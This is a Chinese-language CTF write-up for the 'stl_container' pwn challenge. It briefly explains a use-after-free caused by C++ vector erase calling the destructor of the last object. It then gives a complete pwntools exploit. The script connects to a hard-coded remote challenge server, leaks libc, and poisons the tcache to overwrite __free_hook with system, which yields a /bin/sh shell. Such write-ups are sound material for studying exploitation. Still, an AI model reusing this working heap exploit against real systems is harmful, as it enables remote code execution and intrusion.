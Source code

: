 ### stl_container
[中文](./README_zh.md) [English](./README.md)

[attachment](./attachment.zip)

[docker](./docker.zip)

这道题是关于c++ vector模板的一个漏洞
当vector中储存的是Object的时候，erase指定下标的Object都会调用vector中最后一个Object的析构函数
这样就有了一个UAF漏洞，接下来就利用tcache进行各种攻击

下面是exp
```
from pwn import *

debug=0

#context.terminal = ['tmux','-x','sh','-c']
#context.terminal = ['tmux', 'splitw', '-h' ]
context.log_level='debug'

if debug:
    p=process('./stl_container')
    #p=process('',env={'LD_PRELOAD':'./libc.so'})
    gdb.attach(p)
else:
    p=remote('134.175.239.26',8848)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(ty, content='a'):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('1')
    ru('input data:')
    se(content)
    ru('>>')

def delete(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('2')
    if ty <= 2:
        ru('index?')
        sl(str(idx))
    ru('>>')

def show(ty, idx=0):
    sl(str(ty))
    ru('3. show')
    ru('>>')
    sl('3')
    ru('index?\n')
    sl(str(idx))
    ru('data: ')
    data = ru('\n')
    ru('>>')
    return data


ru('>>')

add(1)
add(1)
add(2)
add(2)
add(4)
add(4)
add(3)
add(3)

delete(3)
delete(3)
delete(1)
delete(1)
delete(4)
delete(4)
delete(2)
data = show(2)
libc = u64(data[:6]+'\0\0')
base = libc - 0x3ebca0
free_hook = base + 0x3ed8e8
system = base + 0x4f440

add(3, '/bin/sh\0')
delete(2)
add(4)
add(2)
add(2)
add(3, '/bin/sh\0')
delete(2)
delete(2)
add(1, p64(free_hook))
add(1, p64(system))

sl('3')
ru('show')
sl('2')

print(hex(base))
p.interactive()

```
